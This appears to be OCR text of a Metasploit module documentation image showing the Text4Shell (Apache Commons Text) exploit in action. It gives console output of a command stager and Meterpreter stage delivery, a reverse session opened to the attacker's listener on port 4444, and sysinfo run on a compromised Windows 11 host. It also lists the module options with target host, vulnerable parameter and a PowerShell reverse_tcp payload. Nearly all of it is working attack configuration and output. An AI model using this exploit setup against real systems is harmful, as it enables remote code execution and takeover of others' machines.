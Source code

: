 ```
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 172.18.160.1
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[*] Meterpreter session 5 opened (172.18.168.145:4444 -> 172.18.160.1:53165) at 2024-01-15 00:14:33 +0530

meterpreter > sysinfo
Computer        : HOME
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

Target: Windows Command
```
msf6 exploit(multi/http/apache_commons_text4shell) > options

Module options (exploit/multi/http/apache_commons_text4shell):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   METHOD     GET                yes       The HTTP method to use (Accepted: GET, POST)
   PARAM      search             yes       The vulnerable parameter
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.18.160.1       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080               yes       The target port (TCP)
   SSL        false              no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  text4shell/attack  yes       The target URI
   URIPATH                       no        The URI to use for this exploit (default is random)
   VHOST                         no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen
                                        on all addresses.
   SRVPORT  5000             yes       The local port to listen on.


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.18.168.145   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


```
